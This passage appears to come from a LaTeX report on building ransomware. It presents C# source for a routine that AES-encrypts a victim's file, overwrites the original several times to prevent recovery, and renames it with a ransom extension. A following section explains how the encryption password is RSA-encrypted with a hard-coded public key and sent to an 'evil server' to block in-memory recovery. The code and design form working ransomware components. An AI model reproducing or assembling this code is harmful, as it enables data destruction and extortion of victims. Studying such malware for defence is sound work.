 \begin{lstlisting}[frame=single, showstringspaces=false] 

        //Encrypts single file
        public void EncryptFile(string file, string password)
        {
             
            byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
            
            int filesize = bytesToBeEncrypted.Length;
            
            //Create bytearray with zeros
            byte[] zeroes = new byte[filesize];
            
            //Create bytearray with random numbers
            Random rnd = new Random();
            byte[] randoms = new Byte[filesize];
            rnd.NextBytes(randoms);
            
            byte[] passwordBytes = Encoding.UTF8.GetBytes(password);
            // Hash the password with SHA256
            passwordBytes = SHA256.Create().ComputeHash(passwordBytes);
            
            byte[] bytesEncrypted = AES_Encrypt(bytesToBeEncrypted, passwordBytes);
            
            //first phase: overwrite with zeroes
            File.WriteAllBytes(file, zeroes);
            //second phase: overwrite with randoms
            File.WriteAllBytes(file, randoms);
            //third phase: overwrite with zeroes
            File.WriteAllBytes(file, zeroes);
            //fourth phase: overwrite file with encrypted data
            File.WriteAllBytes(file, bytesEncrypted);
            System.IO.File.Move(file, file+".Qwfsdfjio");
            
            list_with_encrypted_files.Add(file);

        }

\end{lstlisting}




\subsection{Communication with the Evil server}

After finishing the encryption of the files we send the password used for the encryption to the evil server. Of course we do need to take the necessary precautions. We can not send the password in plaintext. Possible risk are in-memory recovery or interception of the password. All these things we want to avoid and this is why we encrypt this password with RSA. RSA is a asymmetric encryption algorithm and is commonly used to encrypt traffic between a client and a server. The public key is hard coded in the source code of ransomeware, which is no problem because our encryption is asymmetrical and the private key is safely stored on the server.



